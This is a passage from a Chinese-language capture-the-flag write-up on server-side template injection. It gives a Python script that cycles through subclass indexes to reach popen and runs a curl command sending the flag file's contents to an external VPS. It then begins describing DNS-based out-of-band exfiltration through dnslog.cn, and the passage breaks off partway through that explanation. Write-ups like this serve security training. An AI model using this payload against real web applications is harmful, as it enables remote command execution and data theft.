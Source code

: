 ```bash
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    try:
        url = "http://xxx.xxx.xxx.xxxx:5000/level/3"
        data={"code":'{{().__class__.__bases__[0].__subclasses__()['+str(i)+'].__init__.__globals__["popen"]("curl http://124.222.255.142:7777/`cat flag`").read()}}'}
        res = requests.post(url=url,data=data, headers=headers)

    except:
        pass
```

然后在 vps 上监听 7777 端口即可  
[![在这里插入图片描述](assets/1698900310-d45f3d0c15ae83658642d665586d9dbf.png)](https://storage.tttang.com/media/attachment/2022/08/14/66562dae-002a-434b-a24c-192d81c5094e.png)  
或者利用 dns 外带，也是可以的，构造脚本如下  
这个的话我们需要先了解一下 dns 这个东西，可以参考这篇文章[https://xz.aliyun.com/t/9747](https://xz.aliyun.com/t/9747)  
我们这里先测试一下，进入网站[http://dnslog.cn/](http://dnslog.cn/)  
点一下这个  
[![在这里插入图片描述](assets/1698900310-d8fb6c0fdd0a4cea7b985cd8ad4f4345.png)](https://storage.tttang.com/media/attachment/2022/08/14/3bca8a52-b9d4-48dc-9d3d-6c3ba6219583.png)  
出现了`mlbj8n.dnslog.cn`  
此时我们打开 cmd，利用 ping 命令执行一下命令
